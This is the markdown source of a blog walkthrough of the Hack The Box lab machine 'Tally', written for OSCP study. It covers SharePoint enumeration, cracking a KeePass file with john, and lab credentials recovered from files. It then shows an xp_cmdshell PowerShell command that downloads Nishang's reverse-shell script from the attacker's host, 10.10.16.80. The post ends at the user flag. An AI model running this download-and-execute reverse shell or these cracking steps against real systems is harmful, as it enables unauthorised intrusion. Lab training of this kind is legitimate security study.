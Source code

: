 ```yaml
---
title:  "Hack The Box / Tally"
date: 2020-01-25
tags: [Penetration Testing, Hacking, Hack The Box, Jeeves, OSCP, Offensive Security]
header: 
  image: "assets/images/tally/tally-header.png"
---
```


Tally is our third machine in the OSCP list provided by [NetSec Focus](https://www.netsecfocus.com/)! This machine was a great learning experience where the solution problem and research skills were essential in order to root this machine. This is the third blog before my third attempt to the OSCP exam, so let's get to it!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/list.jpg" alt="oscp list">

## Information Gathering

### Nmap Scan
So, we start with a nmap scan to check what ports are open and what services are running in this machine. 

```
nmap -sC -sV -p- -oN scan.nmap 10.10.10.59
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/nmap1.png" alt="nmap scan">
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/nmap2.png" alt="nmap scan">

So, we see some SMB, MSSQL and HTTP services running where all of them are going to be useful. The enumeration in this box is quite extense, but with some persistence and patiente, the clues are going to be coming out one at the time. I also tried to scan most of the HTTP services with not good result, but there was one that actually was useful that I'll explain later. 
After looking at the smb service running, I tried to do some scanning to see if I could find anything, but unf ortunately the result was not helpful.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/nmap-smb.png" alt="nmap scan">

But after looking for more resources and things to look up in our nmap scan, there was a good __attack vector__ that was related with [Microsoft Sharepoint](https://support.office.com/en-us/article/what-is-sharepoint-97b915e6-651b-43b2-827d-fb25777f446f) running in port 32844. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/attack-vector.png" alt="nmap scan">

After looking how other people did this machine, there were a lot of ideas and tools. One of the tools was the [SharePountURLBrute](https://resources.bishopfox.com/resources/tools/sharepoint-hacking-diggity/attack-tools/) that was accurate in some results. This is the command in order to use the tool:
```
perl SharePointURLBrute.pl -a http://10.10.10.59 -e SharePoint-UrlExtensions-18Mar2012.txt
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/sharepoint-urlbrute.png" alt="nmap scan">

Although other people runned [gobuster]() to get some results, but in my case SharePountURLBrute gave more accurate results. In the case if you want to run gobuster, I strongly recommend to download [SecLists](https://github.com/danielmiessler/SecLists) in order to have good results. This is the command to run gobuster. 

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/CMS/sharepoint.txt -u http://10.10.10.59/
```

After finding a couple URLs, the URl that gave useful information was ```http://10.10.10.59/shared%20documents/forms/allitems.aspx``` where there was some details about the ftp log in. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/ftp-documents.png" alt="nmap scan">

After downloading the file, we have the following information. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/ftp-credentials.png" alt="nmap scan">

Great! There is a password, but we don't have a username. It's time to look for more URLs in Microsoft Sharepoint. After trying more tools and not finding results, I tried to look on google things like ```"sharepoint site content url"``` where it came up with this useful [resource](https://docs.microsoft.com/en-us/archive/blogs/how24/famous-sharepoint-urls-locations). So, according to the site one of the URLs that contains information and content was ```http://10.10.10.59/_layouts/15/viewlsts.aspx``` where effectively there was something to look!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/site-page.png" alt="nmap scan">

So after visiting ```http://10.10.10.59/SitePages/FinanceTeam.aspx``` There was a useful file from the Finance Team that contained useful information about the ftp_server. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/site-page-found.png" alt="nmap scan">

This is the information that is related with the ftp user account. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/ftp-user-account.png" alt="nmap scan">

Gratefully, we have username and password which means ```ftp_user:UTDRSCH53c"$6hys```

Then, after trying the credentials, log in was successsful.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/ftp-logedin.png" alt="nmap scan">

Once we are in the ftp server there is a interesting file that we can find at ```\User\Tim\Files``` which is a KeePass file that will be helpful to look more credentials.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/path-key-ftp.png" alt="nmap scan">

Once you find it and get it, you can crack it with [keepass2john](https://gist.github.com/HarmJ0y/116fa1b559372804877e604d7d367bbc) in order to obtain and extrack the hash with the following command.

```
keepass2john tim.kdbx > tim
```

After we have the hash from thh kdbx file, it's time to crack it wiht [John](https://www.openwall.com/john/)!
```
john -w=/usr/share/wordlists/rockyou.txt tim
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/john-cracked.png" alt="nmap scan">

Then it's time to get in with our credentials ```tim:simplementeyo```.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/keepass.png" alt="nmap scan">

If you need more information on how to do the process showed above, do not forget to visit my writeup for [Jeeves](https://coffeejunkiee.github.io/jeeves-HTB/) where I explain the process with detail. 

After getting in the password manager, there is some information about the Finance user, and if we think about what services we can get in, there is a good chance that we can log in with SMB. So to log in in SMB these are the credentials: ```Finance:Acc0unting```. This is the command to log in with SMB.
```
smbclient -U Finance \\\\10.10.10.59\\ACCT
```
After looking around in the server and files, in the location ```\zz_Migration\Binaries\New Folder``` there is a executable called ```tester.exe``` where looks like it's been customized and therefore it can contain useful information, so after downloading the file ```tester.exe``` there is a good way to look to possible info with the command ```strings```. 
```
strings tester.exe | grep "UID"
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/good-creeds.png" alt="nmap scan">

Then we have credentials ```sa:GWE3V65#6KFH93@4GWTG2G``` for MSSQL ツ
To log in in MSSQL there is a good tool in Kali Linux called [sqsh](https://manpages.debian.org/testing/sqsh/sqsh.1.en.html) that allows login in MSSQL and various services and it's a sql shell for linux. So, after googling ```"MSSQL reverse shell"``` it came up with the resource and usage of __xp_cmdshell__ which allows to execute commands from the command prompt in some kidn of RCE (Remote Code Execution), the problem is that __xp_cmdshell__ is desable, but we can enable it following this [resource](https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/). So, this is the command to log in MSSQL with sqsh.
```
sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/cmd-whoami.png" alt="nmap scan">

Then, time to get the reverse shell. 

## Reverse shell

To do this we can use __xp_cmdshell__  to execute a command that will download a powershell script from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) that will return us a reverse shell to our local machine. Do not forget to put this in the last line of the script ```Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.80 -Port 4444``` otherwise the script won't work and do not forget to set up a netcat listener and a python HTTP server. This is the following command to execute within sqsh using __xp_cmdshell__.
```
xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.80/Invoke-PowerShellTcp.ps1') "
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/invoke-shell.png" alt="nmap scan">

and wolah! We got a shell.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/shell-gotten.png" alt="nmap scan">

## User flag
In order to get the user flag we need to navigate to ```C:\Users\Sarah\Desktop``` and type ```type user.txt``` and we got the flag!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/tally/Userflag.png" alt="nmap scan">
